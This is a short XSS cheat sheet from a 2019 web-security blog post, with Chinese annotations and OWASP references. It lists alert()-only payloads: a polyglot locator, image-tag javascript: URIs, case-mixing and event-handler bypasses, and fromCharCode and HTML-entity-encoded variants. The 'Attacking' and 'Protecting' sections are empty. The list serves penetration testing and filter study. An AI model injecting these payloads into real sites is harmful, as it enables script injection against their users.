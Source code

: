 ```yaml
---
title: xss cheat sheet
date: 2019-07-09 23:25:59
tags: 
category: websec
---
```

xss cheat sheet
<!-- more -->
# Testing
## Basic testing
```html
<SCRIPT>alert(1)</SCRIPT>
```
## XSS Locator
xss 定位器, 在用户输入的地方输入此定位器，在返回的页面寻找相关的字符进行渗透
```html
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```
## Image xss
```
// 有单引号双引号
<IMG src='javascript:alert(1)'>

// 无引号
<IMG SRC=javascript:alert(1)>

// 使用大小写绕过
<IMG SRC=JaVaScript:alert(1)>

// 触发事件
<IMG SRC=# onerror=alert(1)>
```
## fromCharCode
```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
## decimal html
```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
```
## hexdecimal 
```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```


# Attacking 


# Protecting


# Reference
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet 
http://help.dottoro.com/ljfvvdnm.php
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md